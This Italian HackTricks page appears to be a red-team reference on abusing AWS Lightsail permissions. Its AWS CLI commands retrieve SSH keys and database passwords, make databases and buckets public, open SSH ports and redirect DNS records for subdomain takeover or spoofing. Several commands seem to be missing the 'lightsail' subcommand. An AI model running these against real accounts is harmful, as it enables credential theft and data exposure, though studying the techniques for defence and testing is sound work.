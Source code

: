 # AWS - Lightsail Privesc

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository github.

</details>
{% endhint %}

## Lightsail

Per ulteriori informazioni su Lightsail controlla:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
È importante notare che Lightsail **non utilizza i ruoli IAM appartenenti all'utente** ma a un account gestito da AWS, quindi non puoi abusare di questo servizio per privesc. Tuttavia, **dati sensibili** come codice, chiavi API e informazioni sul database potrebbero essere trovati in questo servizio.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Questo permesso ti permetterà di ottenere le chiavi SSH per accedere alle istanze:
```
aws lightsail download-default-key-pair
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno delle istanze.

### `lightsail:GetInstanceAccessDetails`

Questa autorizzazione ti permetterà di generare chiavi SSH per accedere alle istanze:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno delle istanze.

### `lightsail:CreateBucketAccessKey`

Questo permesso ti permetterà di ottenere una chiave per accedere al bucket:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno del bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Questo permesso ti permetterà di ottenere le credenziali per accedere al database:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno del database.

### `lightsail:UpdateRelationalDatabase`

Questo permesso ti permetterà di cambiare la password per accedere al database:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Se il database non è pubblico, puoi anche renderlo pubblico con queste autorizzazioni con

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Impatto Potenziale:** Trovare informazioni sensibili all'interno del database.

### `lightsail:OpenInstancePublicPorts`

Questo permesso consente di aprire porte su Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Impatto Potenziale:** Accesso a porte sensibili.

### `lightsail:PutInstancePublicPorts`

Questo permesso consente di aprire porte su Internet. Nota che la chiamata chiuderà qualsiasi porta aperta non specificata in essa.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Impatto Potenziale:** Accesso a porte sensibili.

### `lightsail:SetResourceAccessForBucket`

Questa autorizzazione consente di dare a un'istanza accesso a un bucket senza credenziali aggiuntive.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Impatto Potenziale:** Potenziale nuovo accesso a bucket con informazioni sensibili.

### `lightsail:UpdateBucket`

Con questo permesso un attaccante potrebbe concedere al proprio account AWS accesso in lettura sui bucket o addirittura rendere i bucket pubblici per tutti:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Impatto Potenziale:** Potenziale nuovo accesso a bucket con informazioni sensibili.

### `lightsail:UpdateContainerService`

Con questi permessi, un attaccante potrebbe concedere accesso a ECR privati dal servizio di container.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Impatto Potenziale:** Ottenere informazioni sensibili da ECR privato

### `lightsail:CreateDomainEntry`

Un attaccante con questo permesso potrebbe creare un sottodominio e puntarlo al proprio indirizzo IP (presa di sottodominio), o creare un record SPF che gli consente di falsificare email dal dominio, o addirittura impostare il dominio principale al proprio indirizzo IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impatto Potenziale:** Prendere il controllo di un dominio

### `lightsail:UpdateDomainEntry`

Un attaccante con questo permesso potrebbe creare un sottodominio e puntarlo al proprio indirizzo IP (presa di controllo del sottodominio), o creare un record SPF che gli consenta di falsificare email dal dominio, o addirittura impostare il dominio principale al proprio indirizzo IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impatto Potenziale:** Prendere il controllo di un dominio

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
